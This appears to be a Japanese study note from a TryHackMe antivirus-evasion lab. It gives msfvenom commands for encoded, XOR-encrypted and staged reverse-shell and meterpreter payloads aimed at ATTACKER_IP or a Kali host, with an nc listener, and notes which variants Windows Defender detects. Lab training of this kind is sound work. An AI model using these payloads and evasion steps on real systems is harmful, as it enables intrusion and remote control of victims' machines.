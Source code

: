 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー(hoge.cs)を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行


### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![image](https://github.com/yokohama/thm/assets/1023421/33cbaeee-37bc-4e0b-83cc-bb86328e6eb9)


